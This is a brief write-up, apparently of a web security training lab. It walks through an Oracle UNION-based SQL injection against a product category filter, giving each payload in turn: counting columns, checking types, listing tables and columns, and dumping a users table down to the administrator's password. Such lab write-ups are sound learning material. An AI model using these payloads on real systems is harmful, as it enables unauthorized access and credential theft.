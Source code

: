 

## End goal: login as administrator


## Burp
GET /filter?category=Pets HTTP/1.1

## Finding the number of column
`' union select null ,null  from dual--`
number of column = 2

## finding the datatype of column

`' union select 'a' , 'a'  from dual--`

both columns are of string data type

## outputing table_name form all_tables

`' union select table_name , 'a'  from all_tables--`

we found table : USERS_XODSEE


## outputing column name from USERS_XODSEE

` ' union SELECT column_name , null FROM all_tab_columns WHERE table_name = 'USERS_XODSEE'  -- `


we found column 
PASSWORD_ZJPZZC
USERNAME_IOZCXO

## outputing the username and password

` 'union select USERNAME_IOZCXO, PASSWORD_ZJPZZC from USERS_XODSEE --`


administrator
icgkweid7wok7r0wx55s
